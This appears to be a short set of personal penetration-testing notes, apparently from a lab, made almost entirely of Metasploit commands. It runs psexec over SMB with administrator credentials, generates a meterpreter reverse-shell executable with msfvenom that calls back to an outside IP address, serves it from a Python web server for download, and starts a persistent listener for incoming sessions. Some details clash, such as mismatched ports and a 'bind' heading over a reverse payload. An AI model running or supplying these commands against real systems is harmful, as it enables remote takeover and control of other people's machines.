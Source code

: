 ```
use windows/smb/psexec
set rhost 127.0.0.1
set rport 4445
set lhost 72.69.76.76
set lport 45241
set smbuser administrator
set smbpass vagrant
```
![Pasted image 20250601135928](../../zzAttachments/Pasted%20image%2020250601135928.png)
```
run
```

#### Payload (for bind) (PoC)

##### Generate Payload
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=72.69.76.76 LPORT=45241 -f exe > payload.exe
```

##### Attacker web server
```
python -m http.server 45241
```

## From Windows internet explorer
http://72.69.76.76:45141
download payload .exe

## Persistent Listener
```
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 127.0.0.1
set LPORT 45241
set exitonsession false
exploit -j
```